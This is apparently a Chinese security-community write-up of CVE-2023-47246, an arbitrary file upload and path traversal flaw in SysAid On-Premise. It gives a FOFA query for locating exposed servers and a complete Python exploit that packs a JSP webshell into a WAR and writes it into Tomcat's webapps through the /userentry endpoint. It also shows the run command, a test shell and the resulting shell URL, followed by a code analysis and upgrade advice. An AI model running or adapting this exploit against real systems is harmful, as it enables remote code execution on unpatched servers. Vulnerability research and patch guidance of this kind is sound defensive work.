

# CVE-2023-47246 SysAid Server文件上传漏洞分析 - 先知社区

CVE-2023-47246 SysAid Server文件上传漏洞分析

* * *

# 0x00 概述

SysAid On-Premise是一种 IT 服务管理（ITSM）和 IT 资产管理（ITAM）解决方案，专为企业提供全面的、集成的 IT 管理服务。经过分析发现，该软件存在任意文件上传漏洞，攻击者可以通过上传webshell获取目标系统权限。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-47246 |     |
| 漏洞厂商 | SysAid |     |
| 厂商官网 | [https://www.sysaid.com/](https://www.sysaid.com/) |     |
| 影响对象类型 | Web应用 |     |
| 影响产品 | SysAid On-Premise |     |
| 影响版本 | version < 23.3.36 |     |
|     |     |

# 0x01 漏洞影响

漏洞影响版本：version < 23.3.36

# 0x02 漏洞环境

*   fofa query

```plain
body="sysaid-logo-dark-green.png"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122103950-68d5f450-88e0-1.png)

# 0x03 漏洞验证和利用

exp ：

```plain
import argparse
import binascii
import random
import time
import zipfile
import zlib
import urllib3
import requests

urllib3.disable_warnings()

def compressFile(shellFile, warFile):
    try:
        with zipfile.ZipFile(warFile, 'w', zipfile.ZIP_DEFLATED) as zipf:
            zipf.write(shellFile)
        zipf.close()
        return True
    except:
        return False


def getHexData(warFile):
    with open(warFile, 'rb') as warfile:
        data = warfile.read()
    warfile.close()
    compressed_data = zlib.compress(data)
    hex_data = binascii.hexlify(compressed_data).decode()
    return hex_data


def generateRandomDirectoryName(num):
    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
    return ''.join(random.choice(charset) for _ in range(num))


def get_random_agent():
    agent_list = [
        'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36',
        'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.89 Safari/537.36'
    ]
    return agent_list[random.randint(0, len(agent_list) - 1)]


def shellUpload(url, proxy, directoryName, shellFile):
    userEntryUrl = f"{url}/userentry?accountId=/../../../tomcat/webapps/{directoryName}/&symbolName=test&base64UserName=YWRtaW4="
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": get_random_agent()
    }
    shellFileName = shellFile.split(".")[0]
    warFile = f"{shellFileName}.war"
    if compressFile(shellFile, warFile):
        shellHex = getHexData(warFile=warFile)
        data = binascii.unhexlify(shellHex)
        from myframework.encoder import base64_encode
        print(base64_encode(data=data))
        resp = requests.post(url=userEntryUrl, headers=headers, data=data, proxies=proxy, verify=False)
        print("\033[92m[+] Shell file compressed successfully!\033[0m")
        return resp
    else:
        print("\033[91m[x] Shell file compression failed.\033[0m")
        exit(0)


def shellTest(url, proxy, directoryName, shellFile):
    userEntryUrl = f"{url}/{directoryName}/{shellFile}"
    headers = {
        "User-Agent": get_random_agent()
    }
    resp = requests.get(url=userEntryUrl, headers=headers, timeout=15, proxies=proxy, verify=False)
    return resp, userEntryUrl

def exploit(url, proxy, shellFile):
    print(f"\033[94m[*] start to attack: {url}\033[0m")
    directoryName = generateRandomDirectoryName(5)
    userentryResp = shellUpload(url, proxy, directoryName, shellFile)
    print(f"\033[94m[*] Wait 9 seconds...\033[0m")
    time.sleep(9)
    cveTestResp, userEntryUrl = shellTest(url, proxy, directoryName, shellFile)
    if userentryResp.status_code == 200 and cveTestResp.status_code == 200:
        print(f"\033[92m[+] The website [{url}] has vulnerability CVE-2023-47246! Shell path: {userEntryUrl}\033[0m")
    else:
        print(f"\033[91m[x] The website [{url}] has no vulnerability CVE-2023-47246.\033[0m")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SysAid Server remote code execution vulnerability CVE-2023-47246 Written By W01fh4cker",
        add_help="eg: python CVE-2023-47246-RCE.py -u https://192.168.149.150:8443")
    parser.add_argument("-u", "--url", help="target URL")
    parser.add_argument("-p", "--proxy", help="proxy, eg: http://127.0.0.1:7890")
    parser.add_argument("-f", "--file", help="shell file, eg: shell.jsp")
    args = parser.parse_args()
    if args.url.endswith("/"):
        url = args.url[:-1]
    else:
        url = args.url
    if args.proxy:
        proxy = {
            'http': args.proxy,
            'https': args.proxy
        }
    else:
        proxy = {}
    exploit(url, proxy, args.file)
```

运行exp：

```plain
python CVE-2023-47246-EXP.py -u http://host:8080 -p http://127.0.0.1:8088 -f 2.jsp
```

这里上传 2.jsp ：

```plain
hello<%=8*8%>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122144540-c051a8e2-8902-1.png)

成功上传，访问所上传的webshell：

```plain
http://domain/6YY7Y/2.jsp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104218-c10a8424-88e0-1.png)

# 0x04 漏洞分析

查看日志，确定文件上传的路由对应的Controller是 `com.ilient.server.UserEntry` 这个类：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104319-e564580e-88e0-1.png)

阅读 `com.ilient.server.UserEntry` 这个类的 `doPost()` 的代码，分析请求的处理逻辑

首先读取 post data 的内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104407-01db67c0-88e1-1.png)

然后根据 `accountId` 这个参数中的内容，构建一个 `File` 对象，该对象的路径名没有做任何限制，可以目录穿越：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104422-0aead56c-88e1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104430-0fb796e8-88e1-1.png)

随后写一个 zip 文件，文件内容是 post data 的内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104439-14c2bff0-88e1-1.png)

紧接着调用 `a(var31, var11)` ，在这个方法当中，实现了对刚刚写入的 zip 文件的解压：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104446-18e86882-88e1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231122104453-1cfabe70-88e1-1.png)

如此一来，通过访问 `/userentry` 便能上传任意zip格式的文件，到任意指定位置，该zip文件上传之后会在所指定的位置进行解压，从而实现任意文件写

# 0x05 漏洞修复

官方已修复该漏洞，请升级到最新版本（23.3.36），下载地址为：[https://documentation.sysaid.com/docs/latest-version-installation-files](https://documentation.sysaid.com/docs/latest-version-installation-files)

# 0x06 链接

[https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification](https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification)
